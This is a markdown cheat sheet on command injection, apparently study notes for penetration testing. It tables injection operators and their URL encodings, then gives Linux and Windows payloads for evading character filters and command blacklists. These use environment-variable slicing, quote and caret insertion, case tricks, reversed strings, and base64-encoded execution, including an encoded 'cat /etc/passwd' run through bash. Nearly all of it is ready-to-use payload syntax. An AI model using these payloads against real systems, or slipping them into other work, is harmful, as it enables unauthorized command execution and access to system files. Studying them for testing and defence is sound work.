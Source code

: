 # Command Injections

## Injection Operators

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
|-|-|-|-|
|Semicolon| `;`|`%3b`|Both|
|New Line| `\n`|`%0a`|Both|
|Background| `&`|`%26`|Both (second output generally shown first)|
|Pipe| `\|`|`%7c`|Both (only second output is shown)|
|AND| `&&`|`%26%26`|Both (only if first succeeds)|
|OR| `\|\|`|`%7c%7c`|Second (only if first fails)|
|Sub-Shell| ` `` `|`%60%60`|Both (Linux-only)|
|Sub-Shell| `$()`|`%24%28%29`|Both (Linux-only)|

---
# Linux

## Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `printenv` | Can be used to view all environment variables |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}` | Commas will be replaced with spaces |
| **Other Characters** |
| `${PATH:0:1}` | Will be replaced with `/` |
| `${LS_COLORS:10:1}` | Will be replaced with `;` |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`) |

---
## Blacklisted Command Bypass

| Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `$@` or `\` | Linux only |
| **Case Manipulation** |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** |
| `echo 'whoami' \| rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |
| **Encoded Commands** |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

---
# Windows

## Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** |
| `%HOMEPATH:~0,-17%` | Will be replaced with `\` - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with `\` - (PowerShell) |

---
## Blacklisted Command Bypass

| Code                                                                                                         | Description                              |
| ------------------------------------------------------------------------------------------------------------ | ---------------------------------------- |
| **Character Insertion**                                                                                      |                                          |
| `'` or `"`                                                                                                   | Total must be even                       |
| `^`                                                                                                          | Windows only (CMD)                       |
| **Case Manipulation**                                                                                        |                                          |
| `WhoAmi`                                                                                                     | Simply send the character with odd cases |
| **Reversed Commands**                                                                                        |                                          |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                         |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                 |
| **Encoded Commands**                                                                                         |                                          |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64              |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string               |
